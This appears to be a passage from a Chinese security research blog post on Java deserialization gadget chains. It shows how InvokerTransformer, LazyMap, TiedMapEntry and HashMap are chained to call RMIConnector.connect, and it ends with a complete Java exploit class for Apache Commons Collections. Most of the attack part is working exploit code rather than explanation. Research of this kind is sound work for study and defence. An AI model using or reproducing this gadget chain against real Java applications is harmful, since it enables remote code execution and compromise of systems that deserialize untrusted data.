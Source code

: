 #### [CC链](https://tttang.com/archive/1701/#toc_cc)

说到调用任意方法，茯苓一下子就想到了 CC 链

##### [InvokerTransformer](https://tttang.com/archive/1701/#toc_invokertransformer)

将`connect`装入

[![image-20220810111220880.png](https://storage.tttang.com/media/attachment/2022/08/10/edba0a7a-2d80-4c2f-9214-773ccf59953f.png)](https://storage.tttang.com/media/attachment/2022/08/10/edba0a7a-2d80-4c2f-9214-773ccf59953f.png)

用`TiedMapEntry`封装`LazyMap`

[![image-20220810111306848.png](https://storage.tttang.com/media/attachment/2022/08/10/df00997f-3313-4f07-aee4-67d994a61c80.png)](https://storage.tttang.com/media/attachment/2022/08/10/df00997f-3313-4f07-aee4-67d994a61c80.png)

最后装入`HashMap`用于触发整条链

[![image-20220810111511145.png](https://storage.tttang.com/media/attachment/2022/08/10/b7234637-9955-4100-b2f8-7450753f59d4.png)](https://storage.tttang.com/media/attachment/2022/08/10/b7234637-9955-4100-b2f8-7450753f59d4.png)

完整 exp

```
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.util.HashMap;
import java.util.Map;
import static util.Tool.*;

public class CC_RMIConnector {
    public static void main(String[] args) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/base64string");
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "Poria");
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap,"factory", invokerTransformer);

        run(expMap, "debug", "object");
    }
}
```
